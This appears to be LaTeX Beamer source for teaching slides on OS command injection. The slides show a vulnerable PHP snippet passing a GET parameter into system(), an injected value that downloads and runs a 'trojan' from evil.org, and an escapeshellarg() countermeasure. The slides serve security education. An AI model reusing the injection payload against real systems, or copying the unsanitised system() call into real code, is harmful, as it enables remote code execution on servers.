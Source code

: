 \documentclass{beamer}
\def\emptyline{\vspace{10pt}}
\begin{document}
\section{Other Injection Types}


\subsection{OS Command Injection}

\begin{frame}[fragile]
\frametitle{OS Command Injection}

When a system command partially involves user input, an attacker can inject arbitrary instructions.
\begin{lstlisting}[language=PHP,title={\texttt{Vulnerable PHP code}}]
<?php
$email_subject = "mail subject";
if (isset($_GET['email']))
  system("mail " . $_GET['email'] .
    " -s '" . $email_subject .
    "' < /tmp/email_body", $return_val);
?>
\end{lstlisting}
This corresponds to the command:
\begin{center}
\texttt{mail [email-address] -s 'a subject' < /tmp/email\_body}
\end{center}
\end{frame}


\begin{frame}
\frametitle{Command Injection -- Attack}

The behavior of the \texttt{mail} command can be modified with a deliberately malformed address.

If \texttt{\$\_GET['email']} equals:
\begin{center}
\texttt{-{}-help; wget http://evil.org/trojan; ./trojan \#}
\end{center}

\begin{itemize}
\item \texttt{-{}-help} displays the help page for the \texttt{mail} command.
\item The \texttt{;} separates commands in the shell.
\item \texttt{wget} downloads a malicious binary file.
\item This file is then executed.
\item With \texttt{\#}, the rest of the command is commented out.
\end{itemize}

\emptyline
\alert{Countermeasure}: never pass user input directly to \texttt{system()}, \texttt{exec()}, or \texttt{shell\_exec()}. Use \texttt{escapeshellarg()} in PHP.
\end{frame}
\end{document}

